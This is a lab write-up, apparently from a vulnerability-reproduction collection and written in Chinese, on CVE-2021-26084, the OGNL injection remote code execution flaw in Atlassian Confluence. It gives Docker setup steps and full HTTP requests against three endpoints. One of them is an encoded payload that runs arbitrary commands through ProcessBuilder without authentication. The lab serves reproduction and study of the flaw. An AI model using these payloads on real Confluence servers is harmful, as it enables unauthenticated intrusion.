

# Atlassian Confluence OGNL表达式注入命令执行漏洞（CVE-2021-26084）

Atlassian Confluence是企业广泛使用的wiki系统，其部分版本中存在OGNL表达式注入漏洞。攻击者可以通过这个漏洞，无需任何用户的情况下在目标Confluence中执行任意代码。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html
- https://jira.atlassian.com/browse/CONFSERVER-67940
- https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
- https://github.com/h3v0x/CVE-2021-26084_Confluence

## 环境搭建

执行以下命令启动一个Confluence 7.4.10 data center 试用版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。



## 漏洞利用

有多个接口可以触发这个OGNL表达式注入漏洞。

### /pages/doenterpagevariables.action

这个接口不需要登录即可利用，发送如下数据包，即可看到`233*233`已被执行：

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```


执行任意命令：

```
queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```


### /pages/createpage-entervariables.action

这个路径也不需要用户登录：

```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

### /pages/createpage.action

这个接口需要一个可以创建页面的用户权限：

```
GET /pages/createpage.action?spaceKey=EX&src=quick-create&queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027 HTTP/1.1
Host: 192.168.1.162:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.162:8090/template/custom/content-editor.vm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=7B35600F54A9E303CE8C277ED960E1E7; seraph.confluence=524289%3A2ac32a308478b9cb9f0e351a12470faa4f2a928a
Connection: close


```
